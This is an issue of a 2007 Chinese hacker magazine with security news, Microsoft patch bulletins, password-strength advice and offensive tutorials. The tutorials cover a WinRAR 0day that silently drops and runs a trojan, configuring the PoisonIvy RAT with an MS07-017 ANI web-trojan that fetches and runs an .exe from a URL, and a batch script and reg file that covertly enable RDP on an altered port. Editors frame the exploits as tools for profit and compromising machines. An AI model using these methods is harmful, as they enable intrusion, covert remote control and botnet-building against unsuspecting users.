- 论坛 ID / zwl4488
- 邮件 / pigdogandme@gmail.com

## →对某篇文章的读后感:

文章名称：《TOP 100 强安全工具第 20 名》

读后感：看完后很是感动，在黑客界也越来越物质的今天，能主动将发现的漏洞告知官方，并且与众黑手共分享，Lenong 的境界确实令人佩服！这是我所敬仰的黑客精神！原生态的黑客品质！

被共享的编辑：感谢 Lenong 为大家作出的贡献，也感谢这位读者的回信。“黑客”是技术精通者的代名词之一，希望大家看看本期刊首语！我们一直站在正确的路口引导着大家，和大家一起分享交流技术的快乐！


# 黑客手册


# 网络安全防御

2007.05
NO. 10.8

黑客漫游指南 投稿 Mail: nohack@21cn.com WWW.NOHACK.CN 荒野实验室 自由知行的边缘文化 每月出版 同步发行 不得转载

# WebShellControl

桂林老兵新作

桂林的老兵终又推出新作，ASP 网马——WebShellControl。该马和... LCX 的木马... 比较起来 ASP 木马有很大的不同，海阳和蓝马无论是客户端还是服务端，均以脚本内容的形式出现的，但是 WSC 的客户端... 亦却是一次可执...，更多了一种选择，试试看先。

### 【黑文化】 采访教主

### 【色诱】美女，我要找到你... 以美女的名义入侵网吧


# MS07-017 之肉鸡横飞

无论用户使用的是 IE6、IE7，还是 Firefox、Opera 等主流浏览器，无论是在 Windows 2000、XP、2003，还是最新的 Vista 操作系统，均无法幸免......

- 【OOL Hack】
- 视频聊天卡三变
- 呵呵，一对你不利于...
- 打造自己的 QQ 聊天记录查看补丁
- QQGAME 也外挂
- 获得免费 5 级花加火参果

- 【脚本攻防】
- DNS 与社会工程学
- 当 ARP 遇上社会工程学

- 【心动不如行动】
- 步步洞洞攻陷 phpwind 的坚固堡垒
- Blog 漏洞挖掘及利用详解
- Bbsxp 0day 简单分析以及利用
- 让邪恶蔓延到底——深入挖掘 PowerEasy2006 漏洞
- 台湾 CJB-ASP 程序漏洞浅析
- 为家影院致命伤
- PHPwind5.3 后台拿 webshell 方法
- 脆弱的网吧人才网
- 扼止许愿墙——防止入侵系统的利用
- 学习 ewebeditor 旁切 bold 后台拿 webshell

- 【Hack】
- 挖出百度空间的 XSS 漏洞
- 火星红客联盟
- 关键漏洞全解——三攻入侵手记

- 【网吧】
- 轻松的网吧免费之旅
- 对网吧的全面检测

康尼试图用黑客技术破坏世界银行系统，使之崩溃。世界银行系统有一批专业的计算机高手，系统内部错综复杂，分支繁多，让人眼花缭乱。而且每个关口都有密码封锁。这网络中心系统在第五层内核。想要通过五层防御，真是难上加难。

# 战争游戏

- 光盘推荐
- 【黑客工具】
- 社会工程学词典
- QQ 个性签名生成器
- 【初级教程】
- phpwind5.x 最新 0day 利用
- 1433 端口全自动利用
- 详细双刃 3389
- 【中级】
- 完全破解 ASP 之漏洞与实例
- ASPm 网络提权技术
- 【音乐天堂】
- Hourcast 三部曲《State of Disgrace》

# 写在前面


随着火热的夏季即将到来，据说这年将是全球变暖的正式开始，预计夏季温度将突破往年……想起来就心跳加速、体温上升、热血澎湃、心不由己……（众编：也不知道想到什么地方了，鼻血都出来啦！啊……口水……）

古语说得好：水能载舟，亦能覆舟！其实打眼一看周边的事物，也非常符合这个规则的。这句古语阐述的意思在于：任何事情都有正反两面，正确把握、权衡利弊才是最终适合的结局。

比如拿火来说，它可以在任何时候带给我们光和热，但你绝对要把握一个度，过度的光和热反而使我们无法承受。

火在黑客群中有了新的意义，它是对技术孜孜不倦的追求。技术是火，而不断更新技术的黑客群体就是易燃物。有了这些黑客群体的不断加入，黑客技术的这把火将永远延续下去……

五一的长假给了我们转换心情的空间，初夏的到来将使我们继续保持着热情。用我们正确的黑客精神，自由独行在文化的边缘吧！


## 新闻概要

春天来得真慢，反流氓软件联盟终于首次胜诉，顽强的第一步既然已经踏出，就继续向“钱”进吧！反正流氓会服务，神仙都挡不住嘛！夏天虽然也快到了，希望借着火一般的热情，任何事都 HOT+POWER 起来！每个月大家是不是都在翘首盼望 MS 给我们带来“礼物”？最近的多起事件，对于 MS 来说，其关注度可是相当的……高啊！

# 反流氓软件联盟首次胜诉

在先后起诉了中搜和雅虎公司之后，由网友自发组成的反流氓软件联盟又将第三家所谓的“流氓软件”提供商——上海很棒信息技术有限公司告上了法庭。最近有了一审结果，浦东新区法院判决被告上海很棒信息技术有限公司（以下称很棒公司）赔偿原告某用户经济损失 94 元人民币，其余诉讼请求不予支持。

该用户认为，“明明是在下载 QQ 密码防盗专家特别版共享软件，却不知不觉地被强制下载安装了什么很棒富媒体广告软件，然后电脑就不断弹出广告窗口，弄也弄不掉。”

据其代理律师介绍，自从整合富媒体的“很棒小秘书”软件被强制安装后，每当该用户上网时，“小秘书”就会占用电脑 CPU 的使用率和内存空间，导致电脑运行速度缓慢，电脑都无法操作。最后不得不请了电脑公司的人来“赶走小秘书”，并为此支付了 150 元。

通过使用后还发现：该软件还记录用户电脑的网卡物理地址，分析用户的搜索行为和上网习惯，极大地侵犯了用户隐私权。为纪念反流氓软件联盟成立于 9 月 4 日，所以用户只要求被告赔偿 150 元中的 94 元。

小述点评：虽然此次终于胜利，但范围还是太小，流氓软件还没有一个很清晰的定义。非常赞同“让网民来判定恶意软件”的新策略，并且要求所有捆绑入软件的程序都不准以缺省安装方式强制安装，允许用户选择，而且必须完全删除干净！！！

# 黑客盗走台军机密资料

在前段时间台军所进行的“玉山兵推”中，由于“玉山兵推”的相关机密资料据称被黑客盗走，导致“兵推”步骤大幅缩减。台湾军方的电脑最近疑遭黑客攻破，此次的“玉山兵推”、即将展开的“汉光演习”以及“博胜计划”等规划均被窃走。

据悉，台湾军方某主任教官将办公室使用的 U 盘带回家中，在自家电脑上操作后，该 U 盘再被插回办公室电脑时，经扫描发现有木马程序，因而事发。

此事件引起军方资讯安全防护机制全面启动清查，由于违反规定的教官家中的电脑有上网功能，军方不排除电脑已被黑客植入木马程序，所以 U 盘内的资料可能已经外泄。

小述点评：引以为鉴！军队是国家攻防的核心，机密资料应该高度保密，与其相关的任何与外界连接的事物都应该做到万无一失。

# 微软承认 Vista 遭中国黑客破解

对于大家早就熟悉的微软 Vista OEM 黑客事件，微软公司日前公开承认，确实存在 OEM 黑客现象，可能导致盗版产品成功避开产品动态安全特性，从而达到复制传播的目的。

最近中国市场出现了 Vista Loader 2.0 版本，该软件由中国黑客制作，通过模拟 OEM 主板 BIOS 的方法完成操作系统的盗版。这样，微软构想中的注册过程将可以被成功规避。

微软公司已经证实了两种黑客入侵 OEM 个人电脑 Vista 产品动态安全特性的方法，不过目前微软公司没有任何针对该威胁的行动计划。据悉，他们的主要目的是那些对消费者构成威胁的行为，例如大规模的 Windows 黑客。因此微软的第一个目标仍然是停止大规模的软件商业盗版行动，最大限度保护正版软件用户的利益。

小述点评：新东西出来必然会激发又一轮的黑客技术较量比拼……虽然 Vista 在盗版过程中比 XP 要难许多，但这正是部分黑客所追求的发挥自己潜力的机会。

# 漏洞公告牌

## Vista 系统爆重大漏洞 出自动画光标功能

在安全性上被寄予很大希望的 Vista 操作系统，已经爆出首个重大漏洞。这个新的安全缺陷使得 Windows 用户可能受到严重的电脑攻击，此漏洞影响 Windows XP 以上操作系统和 IE6 以上的浏览器，微软最新的 Vista 和 IE7 都不能幸免。

这一缺陷出在 Windows 处理动画光标的方式上，黑客可以通过带有恶意计算机代码的 Web 网页或电子邮件利用该缺陷。在浏览网页、预览或阅读恶意的电子邮件、打开恶意的电子邮件附件时，黑客就会使受影响的系统执行代码。利用该漏洞传播病毒的网站数量正逐步增多，攻击代码可能已经公开。

动画光标使一个鼠标指针显示为动画，动画光标功能是由 .ani 后缀的文件提供的，但成功的攻击不仅局限于这一文件，因此，仅仅屏蔽这类文件不会使 PC 受到保护。

对于网站的管理员，应该加强对自己服务器日志的管理，尤其要注意不明来源的 ANI 及 JPG 等格式图片文件，一旦出现异常尽快处理。很多黑客可能通过侵入他人网站放置病毒，来间接对网民实行攻击。

> > 小述点评：大家要用 Vista 还是等等吧，会不会也有 SP1 推出呢？

## Microsoft Windows DNS 服务器远程缓冲区溢出漏洞

### 受影响系统：

- Microsoft Windows Server 2003 SP2
- Microsoft Windows Server 2003 SP1
- Microsoft Windows 2000 SP4

### 描述：

Microsoft Windows DNS 服务器的 RPC 接口在处理畸形请求时存在栈溢出漏洞，远程攻击者可能利用此漏洞获取服务器的管理权限。如果远程攻击者能够向有漏洞的系统发送特制的 RPC 报文的话，就可以触发这个溢出，导致以 DNS 服务的安全环境执行任意指令（默认为 Local SYSTEM）。

### 厂商补丁：

目前厂商还没有提供补丁或者升级程序，我们建议使用此软件的用户随时关注厂商的主页以获取最新版本：http://www.microsoft.com/technet/security/

# Word 2007 出现三个新漏洞

从国家计算机病毒应急处理中心处获悉，微软公司的办公文字处理软件 Office Word 2007 出现三个新的漏洞，计算机用户在使用这一软件时要特别注意。

在这三个漏洞中，其中有两个若被恶意攻击者利用，很有可能会对受攻击的计算机系统产生类似于拒绝服务式攻击的后果。例如，受攻击计算机系统的 CPU 占用量会达到 100%，从而造成系统无法正常使用。

据截稿时了解，微软公司目前尚未发布针对这三个漏洞的补丁程序，恶意攻击者很有可能会利用这些漏洞来对存在漏洞的计算机系统发起恶意攻击。例如：用一个含有恶意代码的 Word 文档，诱使计算机用户下载或打开这个文件。一旦文件被打开，攻击者就可以对计算机系统进行一些远程控制，并进行一系列的破坏。

建议大家在微软公司没有发布针对这三个漏洞的补丁程序之前，广大计算机用户在使用办公文字处理软件 Office Word 2007 时应提高警惕，不要随意打开陌生的 Word 文档，对不熟悉的文档最好立即删除掉。

> > 小述点评：咱们编辑们在做文字处理时可要小心了！还好，偶从不追新，用记事本多好！功能越多，问题就出得越多啊！


# 菜鸟也玩
## Winrar <=3.6 0day exploit

gxm[L.S.T]&[H.S.T]

从本文您可以学到：
如何使用 RAR-0DAY exploit

几天前，我的 QQ 群里突然有人这么牛地说：'我师傅有 RAR-0DAY 溢出，有 IIS 远程 0DAY 溢出，有 MSSQL 本地溢出。' 本来大家没当回事，可是 1 天后竟和我们说：'我师傅流转给我 RAR 溢出，要生成的就 M 我。' 这下大家都来了兴趣，都在叫他生成。我去问他拿溢出程序，这个家伙竟告诉我：'我师傅说了不传，你要的话，我就当你的工具好了。' 我对他真是无语。这天晚上，教主也在他的黑色技术论坛公布这个溢出程序，不过出售的价格非常高，没有一个人能买下的。明早我就和他谈了谈，结果这个家伙也不给，5555555。不过我们 Lenk 小组的朋友也不是垃圾啊，马上就传给了我。结果测试一下，成功了！我们来看看吧！打开 CMD，运行程序，界面如图 1。


## 图 1 溢出程序的界面


## 图 2 运行程序后

我们可以看见里面的参数了，当然我们也可以不用，因为这个软件有缺省的参数，准备好一个免杀的服务端，我们这里就换成正常的程序好了，我这里的是内存整理工具，重命名为 1.exe。在执行 rar.exe 1.exe 就会在目录下生成 0day.zip，我们双击他看看，第一个出来的如图 2。

一秒钟后，这个错误跳出，把我们的服务端自动解压到 c:\windows\system\ 中，服务名为 a.exe（从错误弹出，到解压的过程是我们看不到的，本人是安装安全护盾拦截下来才知道的），再自己执行。就这样运行了我们的内存整理工具，如图 3。


## 图 3 运行“木马”了

哈哈，如果我们把这个内存整理工具换成我们的免杀服务端呢？我相信整个网络又是不安了，谁还敢打开 RAR 文件啊！

最后我总结下，这个 0DAY 差不多不能叫 0DAY 了，连我们小菜菜都拿到了，为了能让菜菜看得懂参数，雕牌特意拿教主给的代码给 seer 汉化下的，我连带 exploit，加汉化后的程序给大家，希望大家用得愉快。相信不久之后网络又是不安与恐惧！

# 编辑点评：

越来越多的 0day 总是让网络惶恐不安，而现在我们面前的这个 0day，简直可以称得上是菜鸟手上的神兵啊。不过一旦 0day 公布，那它的寿命也进入尾声了，快点动起来吧，看看它能为我们创造多少财富？


# MS07-017 之肉鸡横飞 New4[D.S.T]

安全公告号：MS07-017  
受影响：  
Microsoft Windows XP SP2  
Microsoft Windows XP Professional x64 Edition  
Microsoft Windows Server 2003 SP1  
Microsoft Windows Server 2003  
Microsoft Windows 2000 SP4  
Microsoft Windows Vista  
Microsoft Internet Explorer 6.0 SP2  
Microsoft Internet Explorer 6.0 SP1  
Microsoft Internet Explorer 6.0  
Microsoft Outlook Express 6.0 SP2  
Microsoft Outlook Express 6.0 SP1 ......

漏洞名称：ANI 鼠标指针漏洞可能允许远程执行代码  
微软名称：KB925902

漏洞描述及危害：攻击者可能会利用此问题危及 Windows 系统的安全，并获取对该系统的控制权。无论用户使用的是 IE6、IE7，还是 Firefox、Opera 等浏览器，无论是 Windows 2000、XP、2003，还是最新的 Vista 操作系统，均无法幸免于难。已有大量木马、恶意程序、蠕虫病毒使用该漏洞进行传播，绝大多数反病毒软件、防漏洞软件、主动防御软件失效。该漏洞的利用程序通常伪装成一个图片，只要点击了带有恶意代码图片的网站或邮件，就会被感染上恶意程序。

最高严重等级：严重  
下载页面：http://www.microsoft.com/technet/security/bulletin/MS07-017.mspx  
补丁地址：http://download.microsoft.com/download/5/8/3/58324bce-00c5-42b7-bd05-1353c0604dab/WindowsXP-KB925902-x86-CHS.exe

发布时间：2007 年 4 月 3 日

- 从本文你可以学到:
1、如何配置 PoisonIvy2.10 木马
2、如何配置利用 MS07-017 漏洞
3、如何本地安全地测试网页木马

# 利用 MS07-017 漏洞的产物之一：

号称第一的、全部补丁的系统都 100% 中招的网页木马诞生了！！！据说该网马配合 MS06-014 的网马使用就是天衣无缝的黄金组合。下面，我们就开始利用 MS07-017 漏洞吧！

- 测试环境：
本机虚拟网卡 IP 地址：192.168.117.4
虚拟机网卡 IP 地址：192.168.117.3

- 测试用软件：
PoisonIvy2.10
MS07-017 网页木马生成器
babyweb2.6
VMware Workstation 虚拟机 + WINXP SP2

我们来配置 PoisonIvy2.10 远程控制木马吧（一款不错的外国的马）。首先打开主程序（这个不用多说吧，相信大家都清楚，呵呵！），点击“生成”选项卡（图 1），再点击“增加”，输入你的 IP 或者你的动态域名等……最后“确定”即可（图 2）。


在“ID”处输入任意字符，并将“启动”打勾选择上（不然重启后肉鸡就丢了哦！），安装部分就根据自己的需要进行选择设置吧！（图 3）


设置完毕后，最后点一下“生成”，选择保存路径即可（图 4）。这样，我们的远程控制木马就炼成了！

接着我们用“Ani 网马生成器”（图 5）开始配置 MS07-017 网页木马生成器。首先在“输入你的网马图 5 网页木马生成器截图

图 6 配置信息

图 7 生成成功

地址”中填写你的Exe木马程序完整的URL地址，我这里是做本地测试，所以就填写本机的虚拟网卡分配出来的IP地址。输入http://192.168.117.4/1.exe，其中1.exe是我的PoisonIvy生成的木马程序(图6)。

最后点击“生成”按钮，提示生成成功(图7)，这时会在程序所在的目录下生成“Ani.htm”和“Ani.jpg”这两个网页木马主体文件。你接着需要做的，就是把这三个文件——Ani.htm、Ani.jpg和1.exe放入网站目录即可。

如果想在本地安全测试网马，最好是使用VMware Workstation虚拟机软件。至于该软件的安装使用过程，大家可以翻阅以前的杂志内容，这里就不多说了，赶快来测试一下吧。

图 8 Baby web

我们先使用babyweb2.6软件在本地架设一个WEB服务器(图8)，设置一下网站服务器根目录，也就是你要放网马的目录(图9)。

图 9 设置目录

最后就是启动服务器(图10)，打开虚拟机软件启动WinXP没有打补丁的系统，测试网页木马……(图11)。

图 10 启动服务

打开网页木马地址http://192.168.117.4/ani.htm(图12)，不到一分钟就上线了，呵呵！(图13)希望大家不要用来做非法的事情哦！对于存在的漏洞危害大家都清楚了吧？快快打上补丁吧！

请看下面，最新漏洞还有四个，大家赶紧打补丁，不然又要成为别人的肉鸡咯！欢迎大家到《黑手》论坛(http://www.nohack.cn/bbs)或者“暗组技术论坛”(http://www.darkst.com/)和我交流，我的ID是New4。

(文章所涉及的工具软件:PoisonIvy2.10、MS07-017网页木马生成器、babyweb2.6已经收录到光盘。)

图 11 启动虚拟机中的系统

安全公告号：MS07-022  
漏洞名称：Windows内核中的漏洞可能允许特权提升  
微软名称：KB931784  
漏洞的影响：特权提升  
最高严重等级：重要  
建议：客户应尽早应用该更新

## 瑞星2007+卡卡

图 12 打开网马地址

漏洞描述：此更新可消除一个秘密报告的新发现漏洞，本公告的“漏洞详细资料”部分中的小节对漏洞进行了说明。成功利用此漏洞的攻击者可以完全控制受影响的系统，并可以随意安装程序；查看、更改或删除数据；或者创建拥有完全用户权限的新账户。

图 13 成功上线

下载页面：http://www.microsoft.com/china/technet/Security/bulletin/ms07-022.mspx  
补丁地址：http://download.microsoft.com/download/5/9/0/590dd85e-4685-4822-bb1b-29d79e929acd/WindowsXP-KB931784-x86-CHS.exe  
发布时间：2007年4月10日

安全公告号：MS07-021  
漏洞名称：CSRSS中的漏洞可能允许远程执行代码  
微软名称：KB930178  
漏洞的影响：远程执行代码  
最高严重等级：严重  
建议：客户应立即应用此更新

漏洞描述：此更新解决秘密和公开披露的多个新发现漏洞，本公告的“漏洞详细资料”部分中的小节对每个漏洞进行了说明。成功利用最严重的漏洞的攻击者可以完全控制受影响的系统，并可以随意安装程序；查看、更改或删除数据；或者创建拥有完全用户权限的新账户。

下载页面：http://www.microsoft.com/china/technet/Security/bulletin/ms07-021.mspx  
补丁地址：http://download.microsoft.com/download/c/d/c/cdc95d35-d6d4-4072-8cae-2e8b6326239c/WindowsXP-KB930178-x86-CHS.exe  
发布时间：2007年4月10日

安全公告号：MS07-020  
漏洞名称：Microsoft Agent 中的漏洞可能允许远程执行代码  
微软名称：KB932168  
漏洞的影响：远程执行代码  
最高严重等级：严重  
建议：客户应立即应用此更新

漏洞描述：此更新可消除一个秘密报告的新发现漏洞，本公告的“漏洞详细资料”部分中的小节对漏洞进行了说明。我们建议用户立即应用此更新。

下载页面：http://www.microsoft.com/china/technet/Security/bulletin/ms07-020.mspx  
补丁地址：http://download.microsoft.com/download/8/6/a/86af2a0e-d8ee-414d-a24b-cbb8188019a3/WindowsXP-KB932168-x86-CHS.exe  
发布时间：2007年4月10日

安全公告号：MS07-019  
漏洞名称：通用即插即用中的漏洞可能允许远程执行代码  
微软名称：KB931261  
漏洞的影响：远程执行代码  
最高严重等级：严重  
建议：客户应立即应用此更新

漏洞描述：此更新可消除一个秘密报告的新发现漏洞，本公告的“漏洞详细资料”部分中的小节对每个漏洞进行了说明。我们建议用户立即应用此更新。

下载页面：http://www.microsoft.com/china/technet/Security/bulletin/ms07-019.mspx  
补丁地址：http://download.microsoft.com/download/5/d/9/5d99e3e1-55aa-4ecf-970c-abb8b5213249/WindowsXP-KB931261-x86-CHS.exe  
发布时间：2007年4月10日

**编辑点评：**自MS07-017漏洞从被发现到利用，世界上不知有多少人的电脑沦为肉鸡！恐怖的数字……而且这个漏洞涉及的Windows系统及软件非常广，从XP到Vista，就连IE和Outlook都无法幸免。现在的补丁终于发布，大家看完本文后请赶快下载相关补丁或进行自动更新吧！！

# 让你的密码强化训练

icyleaf

> 恶人恶语首语：由于未知原因，小编我的硬盘今天突然崩溃，造成了本世纪最大的一次数据损毁事件。损失的资料不计其数，开发了一半的 web 系统，库，还有 2 年的日记，各种零散的收集和记忆，好多东西都要重新来过，而更多的东西是已经无法延续和回忆的了。忽然之间感到的凄凉，丢失了过去，于是我站立在现在，无措地等着黎明。经历过才懂得，数据的安全就是备份备份再备份……

- 从本文你可以学到：
1. 设置复杂密码的简单方法
2. 了解怎样加强密码的安全性

密码可以说是保护个人隐私的一种手段。但是并不是说设置了密码就是百分百的安全，密码是一门科学。就像你的房子虽然上了锁，但高明的小偷用工具依然可以撬开你的锁。我们要如何防范这类事情的发生呢？我认为关键在于如何制作一个“金刚无敌锁”。

数学题它们也不会做，想要破解还是很有难度的！

如果你想知道你密码的安全系数到底是多少，你可以登陆 http://www.microsoft.com/china/athome/security/privacy/password_checker.mspx，进入这个网站，打开微软的“密码检查程序”页面，将你的密码输入空白框中，即可马上在“强度”中得到级别了。它是由微软公司出品的。

# 一、如何强化自己的密码

我们马上开始制造“金刚无敌锁”了。但大家要明白“金刚无敌锁”也不是无懈可击的，只是增加了破解的难度而已。就像 2 元一个的普通锁头和经过特殊处理制造出来 10 元一个的安全锁头比拼是一样的道理。

# 二、经常或者定期更换

密码一成不变也是非常危险的，虽然你通过改善密码的结构来进行强化，但如果破解者的决心很大的话，破解也只是时间的问题。

## 一、改善密码结构

改善结构就是要变换密码的复杂度，如果你使用过支付宝等网站，它们都建议你的密码包含英文字母、数字和符号。但这种密码要怎样才能更容易地构建和记忆呢？

# 三、不要密码全部统一

大多数的人都会犯这个毛病，无论是 QQ、邮箱、论坛还是博客，都使用同一个密码。这方面我也没有什么好方法，只是设置不同的相互之间没有什么联系的密码而已。如果你有什么好的方法，欢迎和大家一起分享。

- 1. 使用顺口的一句话。我举个例子，我最近在背唐诗，正好背到了《登鹳雀楼》，里面有一句是“白日依山尽，黄河入海流。”把它融入到密码中就成了“Br13j,hhrh6.”看到了么，大小写英文字母、数字以及符号都有了。或许你不喜欢背唐诗，怎么写就看你的咯。

# 四、设置好密码保护

这真的是一个非常好的功能，它在平时并不起眼，但如果哪一天，你的密码被盗或者忘记了密码，通过密码保护你就能轻松找回你的密码。

- 2. 我称之为键盘布局法。先看我列举的 3 个密码“ZXasQW12”，“1q2w3e4r5t6y”，“m,.kl;op[0-=”，怎么样，看出窍门了吗？（A 读者：你这是什么呀，好乱！）提示一下，注意它叫什么方法（A 读者：……哦！我明白了，原来利用键盘布局也能创建出这么复杂的密码啊！）^-^

下面给大家说一下如何设置自己的密码保护的问题和答案。

- 1. 所问非所答。 如果问题要你选择并输入自己的证件，你选择军人证而填写自己的学生证号；选择“你母亲的名字叫什么？”你填写你父亲的名字或者你母亲的生日。

- 3. 我称之为数学综合法。没什么好说的，看例子：“1+1=2”，“1+2!=12”看似很简单的一道题，但是对于程序来说，再简单的

- 2. 赌问特殊答（我的语文很烂，随便叫的）。有的问题可以自定义，你可以**在里面胡乱输入一些字符**，如“skdhhkhshsd”，但是答案可一定要自己知道如“icyleaf”，别人在利用社会工程学时，看到你的密码保护的问题是杂乱的字母，他们会想你的答案或许也是胡乱填的，就可能放弃盗取你的账号或者以为盗取了你就再也找不回来了，我就是用这种方法，至今没有丢过一个账号。大家可不要看完我文章拿我的账号做实验啊…这里先

感谢了！！

- 3. 设置一个安全的密码邮箱，除了涉及到密码找回，平时不要公布出来。

## 五、打造超强系统管理员密码

在北太青鸟的演讲中（最后你会知道），那个反病毒专家还提到了一点，很多的用户在杀完毒后重新启动没多长时间还会再次中毒，经过反病毒专家的研究发现，这些用户的 Administrator 用户的密码为空！

网络上发布了很多 Windows 系统，系统的 Administrator 用户的密码都是为空。如果你没有设置 Administrator 用户的密码，那么病毒和木马会很容易进入你的机器。

要打造安全的 Administrator 用户，操作如下：在“我的电脑”点右键选择“管理”，弹出“计算机管理”窗口，在左侧的树型目录选择“系统工具”->“本地用户和组”->“用户”。右侧列出系统的所有用户清单。在 Administrator 用户和 Guest 用户上面双击，把它们的描述互换，点“确定”。如图 1。

然后在 Administrator 用户上右键选择“重命名”更改成一个普通的用户名，Guest 用户上右键选择“重命名”更改为“Administrator”，再各自加上密码，同样是右键操作。

## 最后的话

这里我想说说写这篇文章的成因，昨天我参加了北太青鸟的一个“杀死熊猫病毒”的演讲。主讲人是瑞星的反病毒专家，通过他了解到，还是有很多人的安全意识不强，尤其是关于密码的问题，对它都不重视！由此萌发了写一篇关于密码的文章。虽然这是一个在“（黑客）圈”里谈“烂”的话题，但本文或许对于初学者会有所帮助。

最后的最后：在把稿子发给土豆时，我找到了一个网站 PassBox（密码盒子），它是在网上安全地存放你的密码的免费服务。只要通过互联网你就能够很方便地管理你在多个网站、软件、系统上的密码。它使用的输入密码的机制和登录网络银行输入密码的形式是一样的，如图 2，你在申请的时候最好要填写真实的姓名和身份证（假的也可以，我觉得假的更保密^_^）。

心动了吗？赶紧行动吧！！（A 读者嘀咕道：你都没有给我们网址，我们怎么行动！）噢噢噢，我太激动了，http://www.passbox.cn。

> 编辑点评：密码的安全还是没有被足够的重视，去给人整理电脑就有人说，不要设密码啊开机麻烦。我只能无语。只是希望读者好好看看文章吧，把密码设得强悍一些，才能保证系统安全啊。

# 远程终端（WTS）安全及其安全防范技术研究

陈小兵

- 从本文你可以学到：
1. 认识远程终端
2. 了解开启远程终端的方法
3. 怎样配置一个安全的远程终端

远程终端服务是微软 Windows Server 系列中的一大特色，由于其简洁、维护及使用方便等特点深受广大用户及其黑客的喜爱，而远程终端服务往往运行在一些有重要程序的服务器上，如果远程终端服务的配置和管理不当，往往会带来巨大的损失。本文主要对 Windows 远程终端服务及其相关安全技术进行了分析和讨论，最后给出了一些可供参考的安全设置方法，对使用远程终端的用户具有一定的参考价值。

需要运行几行 DOS 命令即可开启，且由于使用终端不受 IP 地址的限制，只要拥有用户账号及其对应的用户口令，就可以正常登录，因此对 Windows 2000 Server 来讲，远程使用终端服务既开启了方便之门，也开启了安全隐患之门，而且目前还有针对 Windows 2000 Server 及其以上版本的远程终端服务攻击的软件，一旦攻击成功，对于服务器将会带来不可估量的损失。下面对远程终端服务以及相关安全技术进行分析。

## 一、远程终端服务技术

Windows 2000 Server 中的 Windows Terminal Services (WTS) 又称为远程终端服务 (Remote Terminal Services)，或者俗称为 3389，是在 Windows NT 中最先使用的一种终端，在 Windows 2000 Professional 版本中不可以安装，在 Windows 2000 Server 或以上版本才可以安装这个服务，其默认服务端口为 3389，在 Windows XP 系统中称为“远程桌面 (Remote Desktop)”。

远程终端服务在很多大型系统中使用得越来越广泛，正是由于远程终端服务在 Windows Server 2000 以及 Windows 2003 Server 中开启非常简单方便，一般情况下都不需要重新安装，只是

## 二、远程终端开启技术

### 1. 远程终端服务开启步骤

在 Windows 2000 Server 中，有许多开启远程终端服务的方法，归纳起来主要通过以下几个步骤来进行：

- (1) 查看“Terminal Services”是否开启。可以通过服务器中的“服务管理”以及 DOS 命令下的“net start”来查看。如果在服务管理器中“Terminal Services”的状态为“启动”，则表示“Terminal Services”开启成功；而在 DOS 命令下使用“net start”的结果中如果出现了“Terminal Services”则表示开启了远程终端服务。
(2) 启动 Windows Terminal Services 服务。
(3) 使用“远程桌面连接”(RDP)连接远程终端，如果使用 RDP 连接远程终端成功，则表示远程终端服务开启成功。

### 2. 一些常见的开启远程终端服务的方法

#### (1) 使用 rots.vbs 脚本

Rots.vbs 是由网名为“灰色轨迹 zzzevazzz”写的一个 VBS 脚本，该脚本通过系统中自带的 cscript.exe 应用程序来执行，使用该脚本可以开启终端服务以及修改终端服务端口，其使用格式为：

```
cscript.exe rots.vbs ip user userpass port /r 或 cscript.exe rots.vbs ip user userpass port /fr
```

#### (2) 使用 bat 命令

通过记事本建立一个 bat 文件，在其中分别输入以下内容：

```
echo [Components] > c:\sql
echo TSEnable = on >>\sql
c:\sqlsysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\sql /q
```

然后运行该批处理命令，重新启动计算机后，远程终端服务开启成功，该方法不能更改终端服务的端口。

#### (3) 导入一个 reg 文件到需要开启终端服务的机器中

该方法主要是修改远程终端服务的端口及其相关设置，通过生成一个以 reg 为后缀的文件，将该文件导入到需要开启终端服务的计算机上。该方法比较隐蔽，通过服务管理器以及“net start”命令均不会发现终端服务已经启动。Reg 文件内容如下：

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache]
"Enabled"="0"
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"ShutdownWithoutLogon"="0"
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"EnableAdminTSRemote"=dword:00000001
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"TSEnabled"=dword:00000001
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"Start"=dword:00000002
[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle]
"Hotkey"="1"
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000D3D
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000D3D
```

#### (4) 使用 SQL 注入软件启动 3389 服务

在 Domain3.5 以及网名为教主的 HDSI2.0 SQL 等注入工具中均提供了开启 3389 终端服务功能，使用该类软件来开启 3389 的前提条件是运行 Web 服务的服务器必须存在 SQL 注入漏洞，而且数据库用户的权限较大，**在 SQL Server 2000 中数据库用户必须为 sa。**

#### (5) 使用其它软件开启 3389

在网上其它一些流行软件的开启原理跟前面类似，只是使用不同的编程语言进行实现。

## 三、远程终端攻击技术

远程终端攻击中的技术跟常规的攻击技术相同，其中有一款单独针对远程终端服务攻击的软件 (Terminal Services Cracker)，其原理就是利用攻击字典进行自动尝试，如果远程终端服务器中允许登录的口令在攻击字典中，在理论上攻击是成功的，其运行界面如图 1 所示。

## 四、远程终端服务安全设置及其防范对策

图 1 破解远程终端服务器口令

### 1. 及时更新系统安全补丁

对于安装远程终端服务的计算机，在漏洞出现，尤其是在远程提升权限漏洞方面最容易出现安全问题，极易受到攻击，因此除了系统安装完成后，立即更新系统目前所有漏洞的补丁外，还建议启动系统的自动更新功能。一旦出现新漏洞的补丁程序，立即进行更新，在安全更新后需要对系统做一次彻底的安全检查，以确保系统安全。Windows 2000 系统的补丁更新地址为：http://www.microsoft.com/windows2000/downloads/default.asp。

### 2. 严格进行安全日志检查和远程终端服务登录日志检查

系统中应当建立 3389 登录日志记录，并定期严格检查系统安全日志和远程终端登录日志。

### 3. 远程终端服务应用程序共享安全规则

- (1) 一个应用程序对应一台远程终端服务器。
- (2) 不要允许远程控制，只允许执行应用程序，最好是只执行一个应用程序。
